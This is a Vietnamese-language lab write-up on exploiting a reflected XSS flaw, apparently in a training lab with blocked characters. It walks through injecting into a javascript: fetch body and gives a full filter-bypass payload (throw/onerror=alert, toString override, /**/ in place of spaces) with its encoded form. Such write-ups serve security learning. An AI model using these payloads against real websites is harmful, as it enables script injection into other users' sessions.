


#### một lab khá hay về khai thác reflected xss
như tên lab thì nó đã block 1 số kí tự, lab này còn không có feature search, chỉ có phần comment, mình thử Store,DOM mình check source có vẻ không có




view qua source trong 1 bài post bất kì mình bị đập vào mắt dòng 114 có chứa javascript
```
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d4'}).finally(_ => window.location = '/')">Back to Blog</a>
```

fetch sẽ gọi API khi nhấn Back to Blog, quan sát url mình thấy nó giống hệt phần body trong fetch

câu hỏi: nếu mình inject payloa thì phần body nó có change không ?

có nhé ae, thử đi thì biết =)), từ đó mình nhận ra nó tồn tại unstrust data đi vào fetch

mình sẽ thoát khỏi thằng body bằng cách sử dụng `&'`
và phần tiếp theo sẽ là payload để exploit 

mình sẽ sử dụng `x=y=>{throw/**/error=alert,1337}`

func x sẽ nhận tham số y với thân hàm là phần throw

`/**/` có tác dụng comment chức năng tương tự như khoảng trắng để bypass sec của web

sau đó mình chuyển x sang chuỗi, gọi window để kích hoạt nó

`toString()=x, window+'',{x:'khiem`

lưu ý: ae chú ý tới code gốc của web để injec payload không sai syntax, ae hình dung như sqli nhưng không có comment ấy :v 

payload đầy đủ:
```
&'},x=y=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'khiem
```
payload sau khi inject được encode như sau
```
 <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d1%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window%2b%27%27,{x%3a%27khiem'}).finally(_ => window.location = '/')">Back to Blog</a>
```


